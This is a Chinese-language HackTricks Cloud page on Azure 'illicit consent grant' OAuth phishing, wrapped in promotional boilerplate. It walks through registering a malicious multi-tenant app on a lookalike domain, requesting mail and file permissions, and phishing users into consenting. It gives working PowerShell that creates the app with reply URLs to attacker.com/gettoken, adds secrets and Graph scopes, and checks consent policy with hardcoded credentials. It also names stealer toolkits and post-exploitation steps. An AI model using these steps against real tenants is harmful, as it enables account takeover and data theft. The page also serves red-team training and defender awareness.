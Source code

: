 # Az - 非法同意授予

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter**上**关注**我 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## OAuth应用程序钓鱼

**Azure应用程序** 请求权限以访问**用户数据**（基本信息，但也包括访问文档，发送电子邮件等）。\
如果**允许**，普通用户只能对**"低影响"权限**授予同意。在**所有其他**情况下，**需要管理员同意**。\
`GA`、`ApplicationAdministrator`、`CloudApplication` `Administrator`和包括`授予权限给应用程序的权限`的自定义角色可以提供租户范围的同意。

只有**不需要管理员同意**的权限被归类为**低影响**。这些权限是**基本登录所需的openid, profile, email, User.Read和offline\_access**。如果一个**组织** **允许**用户同意**所有应用程序**，员工可以授权一个应用程序**从他们的个人资料中读取上述信息**。

<figure><img src="../../../.gitbook/assets/image (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

因此，攻击者可以准备一个**恶意应用程序**，并通过**钓鱼**，使用户**接受该应用程序并窃取他的数据**。

### 检查用户是否被允许同意

检查用户是否被允许同意应用程序：

{% code overflow="wrap" %}
```powershell
PS AzureADPreview> (GetAzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
```
{% endcode %}

* **禁用用户同意**：用户不能授权应用程序权限。
* **用户可以同意来自经过验证的发布者或您的组织的应用程序，但仅限于您选择的权限**：所有用户只能同意那些由经过验证的发布者发布的应用程序以及在您的租户中注册的应用程序。
* **用户可以同意所有应用程序**：允许所有用户同意任何不需要管理员同意的权限。
* **自定义应用程序同意策略**

## **什么是非法同意授予攻击？**

在非法同意授予攻击中，攻击者创建一个**Azure注册的应用程序，请求访问数据，如联系信息、电子邮件或文档**。然后，攻击者诱骗终端用户授予应用程序同意，以便攻击者能够访问目标用户可以访问的数据。应用程序被授予同意后，它可以在不需要组织账户的情况下以用户账户级别访问数据。

简单来说，当受害者点击那个美丽的蓝色“接受”按钮时，Azure AD会向属于攻击者的第三方网站发送一个令牌，攻击者将使用该令牌代表受害者执行操作，如访问所有文件、阅读邮件、发送邮件等。

## **攻击流程**

<figure><img src="../../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>

为了对公司“ecorp”发起这种攻击，攻击者可以注册一个名为“safedomainlogin.com”的域名，并创建了一个子域名["ecorp.safedomainlogin.com"](http://ecorp.safedomainlogin.com/)，在那里他们**托管应用程序以捕获授权码**，然后请求访问令牌。

然后，在他们的Azure AD租户中注册一个多租户应用程序，并将其命名为“ecorp”，添加了指向“ecorp.safedomainlogin.com”的重定向URL，该URL托管一个应用程序以捕获授权码。

攻击者还创建了一个新的客户端密钥，并在应用程序中添加了一些API**权限**，如`Mail.Read`、`Notes.Read.All`、`Files.ReadWrite.All`、`User.ReadBasic.All`、`User.Read`。这样一旦**用户授予应用程序同意**，攻击者就可以代表用户**提取**敏感信息。

攻击者最终创建了包含恶意应用程序客户端ID的**链接**，并**分享**给**目标用户**以获得他们的同意。

## 365-Stealer

您可以使用[**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer)执行此攻击。

作为额外步骤，如果您对受害组织中的某个用户有一些**访问权限**，您可以检查策略是否允许他**接受应用程序**：
```powershell
Import-Module .\AzureADPreview\AzureADPreview.psd1
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("test@corp.onmicrosoft.com", $passwd)
Connect-AzureAD -Credential $creds
(Get-AzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
# If "ManagePermissionGrantsForSelf.microsoft-user-default-legacy", he can
```
为了进行这次攻击，你需要在你的Azure租户中**创建一个新的应用**（在应用注册中），例如，具有以下权限：

<figure><img src="../../../.gitbook/assets/image (2) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

`User.ReadBasic.All` 位于 `Microsoft Graph` 的 `Delegated permissions` 中。（应用程序权限总是需要额外批准）。

* `User.ReadBasic.All` 是一个权限，如果被授权，它将允许你**读取组织中所有用户的信息**。
* 记住，只有 `GA`、`ApplicationAdministrator`、`CloudApplication` `Administrator` 和包括`授予应用程序权限的权限`的自定义角色可以提供租户范围的同意。因此，如果你想让他批准一个**需要管理员同意的应用**，你应该**钓鱼一个拥有这些角色之一的用户**。

你也可以通过cli创建一个应用，使用：

{% code overflow="wrap" %}
```bash
# Generate Application
New-AzureADApplication -DisplayName "MyApp"  -ReplyUrls @("https://attacker.com", "https://attacker.com/gettoken") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true

# Generate Secret
New-AzureADApplicationPasswordCredential -ObjectId f76ebd35-xxxx-xxxx-xxxx-xxxxxxxxxxxx -CustomKeyIdentifier "MyAppSecret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

# Generate an application with the permissions
$objectid=New-AzureADApplication -DisplayName "AppName"  -ReplyUrls @("https://example.com/login/authorized") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true | select-object ObjectId
New-AzureADApplicationPasswordCredential -ObjectId $objectid.ObjectId -CustomKeyIdentifier "secret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

$AppObjectID = $objectid.ObjectId # object id in AD
$app = Get-AzureADApplication -ObjectId $AppObjectID
$AADAccess = $app.RequiredResourceAccess | Where-Object {$_.ResourceAppId -eq "00000003-0000-0000-c000-000000000000"}  # "00000003-0000-0000-c000-000000000000" represents Graph API
if($AADAccess -eq $null) {
$AADAccess = New-Object Microsoft.Open.AzureAD.Model.RequiredResourceAccess
$AADAccess.ResourceAppId = "00000003-0000-0000-c000-000000000000"

$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

$Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access2.Type = "Scope"
$Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
$AADAccess.ResourceAccess.Add($Access2)

$Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access3.Type = "Scope"
$Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
$AADAccess.ResourceAccess.Add($Access3)

$Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access4.Type = "Scope"
$Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
$AADAccess.ResourceAccess.Add($Access4)

$app.RequiredResourceAccess.Add($AADAccess)
} else {
$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

$Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access2.Type = "Scope"
$Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
$AADAccess.ResourceAccess.Add($Access2)

$Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access3.Type = "Scope"
$Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
$AADAccess.ResourceAccess.Add($Access3)

$Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access4.Type = "Scope"
$Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
$AADAccess.ResourceAccess.Add($Access4)
}

Set-AzureADApplication -ObjectId $AppObjectID -RequiredResourceAccess $app.RequiredResourceAccess
Get-AzureADApplication -ObjectId $objectid.ObjectId | select-object appid
```
```markdown
{% endcode %}

查看 [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer) 学习如何配置它。

{% hint style="warning" %}
请注意，获得的**访问令牌**将用于具有以下范围的**graph端点**：`User.Read` 和 `User.ReadBasic.All`（请求的权限）。您将无法执行其他操作（但这些足以**下载组织中所有用户的信息**）。
{% endhint %}

## [O365-Attack-Toolkit](https://github.com/mdsecactivebreach/o365-attack-toolkit)

您也可以使用这个工具来执行这个攻击。

## 后期利用

一旦您获得了用户的访问权限，您可以做一些事情，例如窃取敏感文档，甚至上传带后门的文档文件。

## 参考资料

* 本文摘自 [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>从零开始学习AWS黑客攻击！</strong></summary>

支持HackTricks的其他方式：

* 如果您希望在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方的PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。**

</details>
```

